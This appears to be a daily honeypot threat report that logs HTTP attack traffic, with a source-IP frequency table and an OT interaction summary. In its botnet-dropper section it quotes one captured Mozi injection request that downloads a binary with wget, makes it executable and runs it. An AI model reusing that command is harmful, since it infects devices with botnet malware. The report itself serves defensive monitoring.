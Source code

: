 ```yaml
---
title: "Report: 2025-03-05 "
date: 2025-03-05
desciption: "Report: {today} "
tags: [repport, daily]
---
```


# Daily Report: 2025-03-05
interaction report on http service of various Hhoneypot around the world.
- [OT report simplified](#ot_simplified_report)
- [Botnet dropper behaviour](#botnet_dropper_behaviour)
- [List of source IP addresses](#list_of_source_ip_addresses)
- [List of user_agent](#user_agent)
- [List of request](#request)
- [List of country_iso_code](#country_iso_code)

## ot_simplified_report
simplified report for medium-level interactions with honeypots that mimic industrial systems (web site loading, or interactions with the website), for more contact us on social@shoggoth.industries.
| source_country   | targeted_country   |
|:-----------------|:-------------------|
| US               | Dubai              |

## botnet_dropper_behaviour
| remote_addr     | request                                                                                                               |
|:----------------|:----------------------------------------------------------------------------------------------------------------------|
| 117.213.113.115 | 27;wget%20http://%s:%d/Mozi.m%20-O%20->%20/tmp/Mozi.m;chmod%20777%20/tmp/Mozi.m;/tmp/Mozi.m%20dlink.mips%27$ HTTP/1.0 |

## list_of_source_IP_addresses
|     |   number_of_occurence | remote_addr     |
|----:|----------------------:|:----------------|
|   0 |                   302 | 193.41.206.176  |
|   1 |                   182 | 194.120.230.215 |
|   2 |                   116 | 45.148.10.34    |
|   3 |                    50 | 45.148.10.35    |
|   4 |                    45 | 43.131.62.185   |
|   5 |                    45 | 43.248.173.166  |
|   6 |                    45 | 88.151.34.37    |
|   7 |                    45 | 195.178.110.163 |
|   8 |                    45 | 220.250.52.123  |
|   9 |                    44 | 185.16.38.107   |
|  10 |                    43 | 92.255.57.58    |
|  11 |                    42 | 178.211.139.120 |
|  12 |                    35 | 45.148.10.90    |
|  13 |                    24 | 68.183.192.232  |
|  14 |                    20 | 87.121.84.131   |